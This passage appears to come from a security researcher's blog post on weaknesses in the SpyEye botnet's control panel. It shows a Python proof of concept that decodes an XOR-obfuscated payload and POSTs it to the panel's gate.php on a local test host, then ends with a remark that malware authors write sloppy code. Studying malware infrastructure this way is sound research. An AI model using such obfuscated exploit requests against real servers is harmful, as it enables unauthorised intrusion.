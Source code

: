 b64_data= "vK6yv+bt9er17O3r6vqPnoiPjZb2i5j6muvo6+rjmJ/9rb6p5urr6O/j/bK+5uP16/Xs7evq9ers7urv/bSo5u316vXs7evq/a6v5pq/trK1/bi4qbjm453j6uPv7Or9tr/u5um+uuvpve3p7eq/4+vsveLi7Lnqvrjr6ujs7rjt7rns/au3vOa5sre3srW8s7q2tr6p4Lm3tLiw4LmuvKm+q7Spr+C4uPu8qbq5ub6p4Li4vKm6ubm+qeC4qb6/sq+8qbq54LiuqK+0tri0tbW+uK+0qeC/v7So4L+1qLqrsuC+trqyt7ypurm5vqngvb24vqmvvKm6ubm+qeC9/aivuq/mtLW3srW+"
payload =xor_str (binascii.a2b_base64(b64_data), 219) 
print ("the decrypted payload is: " + payload)
params = (binascii.b2a_base64(xor_str(payload,219)))
payload = {'data': params}
r = requests.post("http://spyeye.localhost/spyeye/_cg/gate.php", data=payload)
</pre><div><h3>Morale of the story?</h3><div>
</div>Criminals produce the same shitty code as the rest of the world, and thanks to this, some of the malware operators get caught and are behind bars now. And the law is behind the reality, as always.</div>
</div>